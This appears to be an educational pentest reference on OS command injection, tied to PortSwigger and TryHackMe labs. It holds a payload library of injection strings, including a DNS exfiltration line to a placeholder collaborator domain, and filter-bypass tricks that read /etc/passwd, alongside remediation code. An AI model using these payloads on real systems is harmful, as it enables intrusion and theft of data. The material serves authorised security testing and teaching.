

# OS Command Injection — HAXMED Intelligence Reference

[]()
[]()
[]()
[]()

---

## 1. Overview

**OS Command Injection** (also known as Shell Injection) occurs when a web application passes unsanitized user-supplied data to a system shell execution primitive (such as `system()`, `exec()`, `passthru()`, `Runtime.getRuntime().exec()`, or Python's `os.system()`). The operating system executes arbitrary operating system commands under the privileges of the web application service user (e.g., `www-data`, `nobody`, or `SYSTEM`).

- **Primary Classification:** OWASP Top 10:2021 — #3 **A03:2021-Injection**; CWE-78 (Improper Neutralization of Special Elements used in an OS Command).
- **Common Aliases:** Shell Injection, Command Execution, OS Injection, Remote Code Execution (RCE) via System Shell.
- **CWE Mappings:**
  - `CWE-78`: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')
  - `CWE-88`: Improper Neutralization of Argument Delimiters in a Command
- **Security Impact:** Complete server compromise, unauthorized access to internal network segments, persistence installation, database dumping, and lateral movement.

---

## 2. Root Cause and Attack Surface

### Root Cause
1. **Calling the System Shell:** Using shell execution functions that invoke an intermediate command interpreter (`/bin/sh -c` or `cmd.exe /c`) rather than executing parameterized process binaries directly.
2. **Missing Input Validation:** Trusting user input submitted in parameters, headers, or filenames without enforcing strict alphanumeric allowlists.
3. **Flawed Blacklisting:** Relying on basic character blocklists (e.g., filtering spaces or pipes) which can be bypassed via environmental variables, shell expansion, or alternate delimiters.

### Attack Surface Entry Points
- **System Utilities Invoked via Web:** Network diagnostic tools (Ping, Traceroute, Whois, DNS lookup).
- **File & Media Converters:** Image manipulation wrappers (ImageMagick, GraphicsMagick), PDF generators (wkhtmltopdf), and video transcoders (FFmpeg).
- **Administrative Functions:** System status dashboards, service restart tools, server log visualizers.
- **Feedback & Support Forms:** Email sending scripts (wrapping `sendmail` or `mail`).

---

## 3. Detection and Reconnaissance

### Detection Strategy: Active Probing Types
1. **In-Band (Direct Output):** The command result is echoed directly back in the HTTP response body.
2. **Blind (Time-Based):** Output is suppressed, but introducing time-delay commands (`sleep 10` or `timeout /t 10`) produces measurable latency differences.
3. **Blind (Output Redirection):** Redirecting stdout to a publicly accessible directory (`/var/www/static/output.txt`).
4. **Blind (Out-of-Band / OAST):** Triggering asynchronous DNS/HTTP lookups to an external collaborator system (Burp Collaborator, Interactsh).

### Shell Separator Syntax Matrix

| Separator | Linux Shell (`sh`/`bash`) | Windows Shell (`cmd.exe`) | Execution Behavior |
|---|---|---|---|
| `;` | Yes | No | Executes sequentially regardless of outcome |
| `&` | Yes | Yes | Runs first command in background, then second |
| `&&` | Yes | Yes | Runs second command only if first succeeds (exit code 0) |
| `\|` | Yes | Yes | Pipes stdout of first into stdin of second |
| `\|\|` | Yes | Yes | Runs second command only if first fails (exit code non-zero) |
| Newline (`\n` / `%0a`) | Yes | No | Interpreted as command line separator in Unix shells |
| Backticks (`` `cmd` ``) | Yes | No | Command substitution (inline evaluation) |
| `$()` | Yes | No | Modern POSIX command substitution |

---

## 4. Testing Methodology



---

## 5. Payload Library

> [!NOTE]
> All payloads below use benign commands (`whoami`, `sleep`, `nslookup`) strictly intended for authorized validation.

### CMD-PL-01: In-Band Sequential Execution
- **Payload:** `127.0.0.1; whoami` or `127.0.0.1 & whoami`
- **Purpose:** Test unquoted parameter concatenation.
- **Expected Behavior:** Output displays current service username (`www-data`).
- **Classification:** `[CONFIRMED]`

### CMD-PL-02: Blind Time-Based Verification (Linux)
- **Payload:** `x || sleep 10 #` or `|| ping -c 10 127.0.0.1 ||`
- **Purpose:** Non-destructively verify blind injection using response latency.
- **Expected Behavior:** Server response is delayed by exactly 10 seconds.
- **Classification:** `[CONFIRMED]`

### CMD-PL-03: Blind Time-Based Verification (Windows)
- **Payload:** `& timeout /t 10 &` or `| ping -n 11 127.0.0.1`
- **Purpose:** Time-based verification in Windows environments.
- **Classification:** `[CONFIRMED]`

### CMD-PL-04: Blind Output Redirection to Webroot
- **Payload:** `|| whoami > /var/www/images/output.txt ||`
- **Purpose:** Exfiltrate command results when responses are blind but a static directory is readable.
- **Classification:** `[CONFIRMED]`

### CMD-PL-05: Blind Out-of-Band (OAST) Interaction
- **Payload:** `|| nslookup $COLLABORATOR_DOMAIN ||`
- **Purpose:** Establish proof of execution in restricted blind environments via DNS query callback.
- **Classification:** `[CONFIRMED]`

### CMD-PL-06: Out-of-Band Data Exfiltration via DNS Subdomain
- **Payload:** `|| nslookup $(whoami).$COLLABORATOR_DOMAIN ||`
- **Purpose:** Exfiltrate small data strings inside DNS queries when all outbound HTTP traffic is egress-filtered.
- **Classification:** `[CONFIRMED]`

---

## 6. Bypass Techniques & Filter Evasion

### 1. Space Character Filtering
When space characters (`0x20`) are stripped or blocked:
- **Internal Field Separator (POSIX):** `$IFS` or `${IFS}`
  - Example: `cat${IFS}/etc/passwd`
- **Brace Expansion (Bash):**
  - Example: `{cat,/etc/passwd}`
- **Input Redirection:**
  - Example: `cat</etc/passwd`

### 2. Blacklisted Keyword Evasion
When specific command names (like `cat` or `whoami`) are blocked:
- **String Concatenation (Bash):**
  - Example: `w'h'o'a'm'i` or `w"h"o"a"m"i`
- **Uninitialized Environment Variables:**
  - Example: `w$u'h'oami` (where `$u` is empty)
- **Wildcard Expansion:**
  - Example: `/bin/c?t /etc/pa??wd`

### 3. Argument Injection (Without Shell Separators)
When the application uses parameterized calls (`execFile("cmd", [args])`) but user input specifies options:
- Passing `-o` or `--output` to redirect output to arbitrary files.
- Injecting `--eval` or `--exec` flags in utilities that support internal scripting.

---

## 7. Exploit and PoC References

- **CVE-2014-6271 (Shellshock):** Bash environment variable parsing flaw allowing arbitrary command execution.
- **CVE-2016-3714 (ImageTragick):** Parameter injection in ImageMagick's delegate command lines (`msl:` and `label:` protocols).
- **CVE-2021-22205 (GitLab ExifTool RCE):** Improper neutralization in DjVu file parser triggering command execution through eval.

---

## 8. Tools and Automation

1. **Commix (Automated All-in-One OS Command Injection):**
   - **Repository:** `https://github.com/commixproject/commix`
   - **Purpose:** Automated detection and non-destructive exploitation of command injection vulnerabilities across diverse shells.
2. **Burp Suite Collaborator / ProjectDiscovery Interactsh:**
   - **Repository:** `https://github.com/projectdiscovery/interactsh`
   - **Purpose:** Asynchronous out-of-band interaction testing for DNS/HTTP/SMTP callbacks.

---

## 9. Troubleshooting and False Positives

- **Network Gateway Timeouts:** Long response times caused by high server load can mimic time-based command injection. Always compare baseline latencies using multiple increments (e.g., 5 seconds vs 15 seconds) to confirm exact causality.
- **Egress Filtering:** Blind OAST payloads may fail if the target server restricts outbound DNS (port 53) and HTTP (ports 80/443). In such environments, fallback to time delays or local webroot redirection.

---

## 10. Remediation and Retesting

### Secure Implementation Pattern: Avoid the Shell Entirely
Never invoke system shells (`/bin/sh`, `cmd.exe`). Use platform APIs that execute executable binaries directly with parameter arrays:

#### Vulnerable (Python):
```python
# VULNERABLE: Shell invoked via string concatenation
import os
os.system("ping -c 1 " + user_input)
```

#### Remediated (Python):
```python
# SECURE: Executes /bin/ping directly; no shell interpreter invoked
import subprocess

# Enforce strict input validation
if not user_input.replace(".", "").isalnum():
    raise ValueError("Invalid target format")

result = subprocess.run(
    ["/bin/ping", "-c", "1", user_input],
    capture_output=True,
    text=True,
    shell=False,  # CRITICAL: shell interpreter disabled
    timeout=5
)
```

---

## 11. PortSwigger / TryHackMe / OWASP Lab Mapping

| Lab Name | Platform | Injection Sub-Type | Directory Reference |
|---|---|---|---|
| OS Command Injection, Simple Case | PortSwigger | In-Band Separator (`&`) | [Lab-01](./EN/Lab-01-OS-Command-Injection-Simple-Case.md) |
| Blind OS Command Injection with Time Delays | PortSwigger | Time-Based (`\|\| sleep 10 #`) | [Lab-02](./EN/Lab-02-Blind-OS-Command-Injection-with-Time-Delays.md) |
| Blind OS Command Injection with Output Redirection | PortSwigger | Redirection to Static Webroot | [Lab-03](./EN/Lab-03-Blind-OS-Command-Injection-with-Output-Redirection.md) |
| Blind OS Command Injection with Out-of-Band Interaction | PortSwigger | OAST DNS Callback (`nslookup`) | [Lab-04](./EN/Lab-04-Blind-OS-Command-Injection-with-Out-of-Band-Interaction.md) |
| Blind OS Command Injection with Out-of-Band Exfiltration | PortSwigger | OAST DNS Subdomain Extraction | [Lab-05](./EN/Lab-05-Blind-OS-Command-Injection-with-Out-of-Band-Data-Exfiltration.md) |
| Command Injection Room | TryHackMe | Shell Mechanics, Detection & Filters | [THM Guide](./EN/THM-OS-Command-Injection.md) |

---

## 12. Reporting Guidance

- **Vulnerability Title:** Remote OS Command Injection in System Utility Endpoint.
- **Severity Rating:** Critical (CVSS v3.1 Base Score: 9.8).
  - *Vector Example:* `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`
- **Remediation Recommendation:** Eliminate shell invocation functions (`system`, `exec`, `shell_exec`). Replace with built-in programming language APIs or parameterized execution functions (`subprocess.run(shell=False)`).

---

## 13. References

- **PortSwigger OS Command Injection Academy:** https://portswigger.net/web-security/os-command-injection
- **OWASP Command Injection Defense Cheat Sheet:** https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html
- **CWE-78 (OS Command Injection):** https://cwe.mitre.org/data/definitions/78.html

---

## 14. Research Coverage and Validation Status

| Metric | Status / Count |
|---|---|
| Total Lab References Verified | 6 (5 PortSwigger + 1 TryHackMe) |
| Verification Status | `[CONFIRMED]` across all documented lab targets |
| Limitations | Blind OAST payloads require outbound network connectivity to collaborator servers. |
